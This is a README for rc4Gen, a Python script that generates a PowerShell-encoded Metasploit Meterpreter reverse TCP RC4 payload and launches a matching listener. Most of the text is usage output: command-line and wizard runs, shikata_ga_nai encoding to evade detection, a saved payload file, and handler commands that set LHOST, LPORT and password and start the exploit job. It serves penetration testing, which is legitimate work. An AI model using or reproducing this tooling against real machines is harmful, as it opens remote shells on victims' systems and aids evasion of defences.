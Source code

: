 # rc4Gen
    This is a Unicorn like script that...
    Generates a MSF Reverse TCP RC4 payload encoded in Powershell.
    Additionally, it will copy the payload to your clipboard and automagically launch the MSF listener.
    rc4Gen.py supports both command-line parameters and a wizard with interactive menu driven options.
***
Installation:

    git clone 
    cd rc4Gen
    python rc4Gen.py

***
Default Values:    
    
***
Usage(CLI):

    python rc4Gen.py --lhost=10.37.242.7 --lport=445 --verbose=on -e on
***
Usage(Wizard):

    External IP: 100.255.255.255
    Internal IP: 10.37.242.7

    You did not specifiy the LHOST, wizard menu has launched:

    Enter LHOST for payload[100.255.255.255]:10.37.242.7
    ENTERED: "10.37.242.7"

    Enter LPORT for payload[443]:
    ENTERED: "443"

    Enter RC4PASSWORD for payload[rc4M4g1c]:
    ENTERED: "rc4M4g1c"

    TIP: Verbosity [ON] will print payload to STDOUT.
    TIP: Verbosity [OFF] will copy payload to Clipboard.
    Verbosity[OFF]:
    ENTERED: "OFF"

    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 421 (iteration=0)
    x86/shikata_ga_nai chosen with final size 421
    Payload size: 421 bytes
    Saved as: rc4_payload.ps1

    Payload Copied to Clipboard:

    PAYLOAD: reverse_tcp_rc4
    LHOST: 10.37.242.7
    LPORT: 443
    RC4PASSWORD: rc4M4g1c
    TIP: Listener [ON] will automagically launch a MSF listener.
    listener[ON]:
    ENTERED: "ON"

    [*] Processing rc4_listener.rc for ERB directives.
    resource (rc4_listener.rc)> use multi/handler
    resource (rc4_listener.rc)> set PAYLOAD windows/meterpreter/reverse_tcp_rc4
    PAYLOAD => windows/meterpreter/reverse_tcp_rc4
    resource (rc4_listener.rc)> set LHOST 10.37.242.7
    LHOST => 10.37.242.7
    resource (rc4_listener.rc)> set LPORT 443
    LPORT => 443
    resource (rc4_listener.rc)> set Rc4PASSWORD rc4M4g1c
    Rc4PASSWORD => rc4M4g1c
    resource (rc4_listener.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (rc4_listener.rc)> set AutoRunScript multi_console_command -rcautorun_commands.rc
    AutoRunScript => multi_console_command -rcautorun_commands.rc
    resource (rc4_listener.rc)> exploit -j -z
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.37.242.7:443 
    [*] Starting the payload handler...
    msf exploit(handler) > exit
        ...
***
To Do:

    Add try/expect statment for the msfpro/msvenom alternate path
    Create help function.
    Complete README.md
